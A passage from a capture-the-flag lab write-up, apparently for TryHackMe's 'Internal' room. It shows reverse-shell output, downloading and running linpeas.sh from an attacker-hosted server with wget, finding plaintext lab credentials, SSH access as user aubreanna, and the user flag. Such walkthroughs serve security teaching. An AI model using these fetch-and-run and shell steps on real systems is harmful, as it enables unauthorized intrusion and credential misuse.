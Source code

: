   ```bash
  connect to [ATTACKER IP] from (UNKNOWN) [10.10.21.216] 47092
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  www-data@internal:/$
  ```

### 5. Enumerate as www-data
- Ran `linpeas.sh` for automated enumeration:
  ```bash
  python3 -m http.server
  cd /tmp
  wget http://[ATTACKER IP]:8000/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
- Found a suspicious file in `/opt`:
  ```bash
  cd /opt
  ls -la
  ```
- Output:
  ```
  total 16
  drwxr-xr-x  3 root root 4096 Aug  3  2020 .
  drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
  drwx--x--x  4 root root 4096 Aug  3  2020 containerd
  -rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
  ```
- Viewed `wp-save.txt`:
  ```bash
  cat wp-save.txt
  ```
- Content:
  ```
  Bill,
  Aubreanna needed these credentials for something later. Let her know you have them and where they are.
  aubreanna:bubb13guM!@#123
  ```
- **Key Insight**: SSH credentials for user `aubreanna` [].

### 6. SSH as aubreanna
- Tested the credentials:
  ```bash
  ssh aubreanna@10.10.21.216
  ```
- Password: `bubb13guM!@#123`
- Success: Logged in as `aubreanna`.
- Listed files:
  ```bash
  ls
  ```
- Output:
  ```
  jenkins.txt  snap  user.txt
  ```
- Read user flag:
  ```bash
  cat user.txt
  ```
- Content: `THM{int3rna1_fl4g_1}` [].
- Read `jenkins.txt`:
  ```bash
  cat jenkins.txt
  ```
- Content:
  ```
  Internal Jenkins service is running on 172.17.0.2:8080
  ```